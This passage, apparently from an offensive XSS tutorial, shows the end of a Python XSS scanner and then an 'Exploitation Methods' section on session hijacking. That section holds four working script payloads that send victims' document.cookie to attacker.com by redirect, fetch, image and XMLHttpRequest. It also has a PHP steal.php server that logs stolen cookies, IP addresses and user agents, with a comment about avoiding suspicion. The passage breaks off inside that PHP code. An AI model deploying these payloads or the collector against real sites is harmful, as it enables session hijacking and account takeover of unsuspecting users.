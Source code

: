 ```python
        print(f"\n[+] Found {len(vulnerabilities)} potential XSS vulnerabilities:")
        for vuln in vulnerabilities:
            print(f"  - {vuln['type']}: {vuln.get('parameter', 'N/A')} in {vuln['url']}")
    else:
        print("\n[-] No XSS vulnerabilities found")
    
    if args.output:
        import json
        with open(args.output, 'w') as f:
            json.dump(vulnerabilities, f, indent=2)

if __name__ == "__main__":
    main()
```

## ⚔️ Exploitation Methods

### 1. 🍪 Session Hijacking

#### Cookie Stealing Techniques
```javascript
// Basic cookie stealing
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>

// Fetch API method (modern browsers)
<script>
fetch('http://attacker.com/steal.php', {
    method: 'POST',
    body: 'cookie=' + document.cookie
});
</script>

// Image-based exfiltration
<script>
var img = new Image();
img.src = 'http://attacker.com/steal.php?cookie=' + encodeURIComponent(document.cookie);
</script>

// XMLHttpRequest method
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://attacker.com/steal.php', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('cookie=' + encodeURIComponent(document.cookie));
</script>
```

#### Server-Side Cookie Stealer (PHP)
```php
<?php
// steal.php - Cookie stealing server
if (isset($_GET['cookie']) || isset($_POST['cookie'])) {
    $cookie = $_GET['cookie'] ?? $_POST['cookie'];
    $ip = $_SERVER['REMOTE_ADDR'];
    $user_agent = $_SERVER['HTTP_USER_AGENT'];
    $timestamp = date('Y-m-d H:i:s');
    
    $log_entry = "[$timestamp] IP: $ip | Cookie: $cookie | UA: $user_agent\n";
    file_put_contents('stolen_cookies.txt', $log_entry, FILE_APPEND);
    
    // Return 1x1 pixel image to avoid suspicion
```